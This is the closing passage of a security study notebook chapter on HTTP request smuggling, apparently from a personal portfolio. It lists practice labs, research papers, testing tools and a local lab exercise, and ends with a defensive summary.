  - *HTTP/2 request smuggling* set — *H2.CL*, *H2.TE*, *CRLF injection*, *request splitting*,
    *request tunnelling*.
  - *Browser-powered request smuggling* set — *client-side desync*, *client-side cache poisoning*,
    *pause-based desync*.
- **James Kettle's research papers** (read in order): "HTTP Desync Attacks: Request Smuggling Reborn"
  (2019), "HTTP/2: The Sequel is Always Worse" (2021), and "Browser-Powered Desync Attacks" (2022). These
  are the primary sources for every technique above.
- **Tools to install and practise with:** Burp Suite (Repeater single-connection groups, HTTP/2
  Inspector), the **HTTP Request Smuggler** and **Turbo Intruder** BApp extensions, and **smuggler.py**.
- **Disclosed reports:** browse HackerOne's public reports tagged request smuggling / HTTP desync (many
  from Kettle and others against major CDNs) to see real weaponisation and severity justification.
- **Your own lab:** extend the Part 13 Python back-end into a full front-end/back-end pair and reproduce
  CL.TE, TE.CL, and a duplicate-`Content-Length` CL.CL locally before ever touching an external target.

With smuggling understood, the Server-Side notebook's core is complete: SSRF, file upload, path
traversal, deserialization, and now desync each turn a single trusted server operation — or, here, the
*disagreement between two* — into attacker control. The recurring defensive theme across all of them is
the same: never let attacker-controlled input silently decide the meaning of a server-side operation,
and in this chapter's case, never let two servers disagree about what that input *was*.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/appsec-server-side/05-http-request-smuggling-and-desync-attacks), with comments and the latest edits.*
